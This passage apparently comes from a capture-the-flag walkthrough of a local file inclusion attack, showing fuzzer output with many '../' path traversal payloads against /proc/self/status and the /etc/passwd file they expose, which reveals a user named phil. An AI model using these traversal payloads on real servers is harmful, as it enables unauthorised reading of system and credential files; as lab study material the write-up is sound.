 ```
000000240:   200        57 L     139 W      1405 Ch     "../../../../../../../../../../../proc/self/status"                                                                                                                        
000000241:   200        57 L     139 W      1405 Ch     "../../../../../../../../../../../../proc/self/status"                                                                                                                     
000000237:   200        57 L     139 W      1405 Ch     "../../../../../../../../proc/self/status"                                                                                                                                 
000000239:   200        57 L     139 W      1405 Ch     "../../../../../../../../../../proc/self/status"                                                                                                                           
000000236:   200        57 L     139 W      1405 Ch     "../../../../../../../proc/self/status"                                                                                                                                    
000000233:   200        57 L     139 W      1405 Ch     "../../../../proc/self/status"                                                                                                                                             
000000235:   200        57 L     139 W      1405 Ch     "../../../../../../proc/self/status" 

[...]
```

Success! It turns out that numerous LFI strings are possible, but for our purposes we can utilize the most simple one (e.g., `../../../../<root of filesystem>`), which allows us to view `../../../../etc/passwd` and reaveal the user account name `phil`:

```
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:65534:65534:Kernel Overflow User:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
tss:x:59:59:Account used for TPM access:/dev/null:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/usr/sbin/nologin
systemd-oom:x:999:999:systemd Userspace OOM Killer:/:/usr/sbin/nologin
systemd-resolve:x:193:193:systemd Resolver:/:/usr/sbin/nologin
polkitd:x:998:997:User for polkitd:/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
abrt:x:173:173::/etc/abrt:/sbin/nologin
setroubleshoot:x:997:995:SELinux troubleshoot server:/var/lib/setroubleshoot:/sbin/nologin
cockpit-ws:x:996:994:User for cockpit web service:/nonexisting:/sbin/nologin
cockpit-wsinstance:x:995:993:User for cockpit-ws instances:/nonexisting:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/usr/share/empty.sshd:/sbin/nologin
chrony:x:994:992::/var/lib/chrony:/sbin/nologin
dnsmasq:x:993:991:Dnsmasq DHCP and DNS server:/var/lib/dnsmasq:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
systemd-coredump:x:989:989:systemd Core Dumper:/:/usr/sbin/nologin
systemd-timesync:x:988:988:systemd Time Synchronization:/:/usr/sbin/nologin
developer:x:1000:1000::/home/developer:/bin/bash
phil:x:1001:1001::/home/phil:/bin/bash
_laurel:x:987:987::/var/log/laurel:/bin/false
```
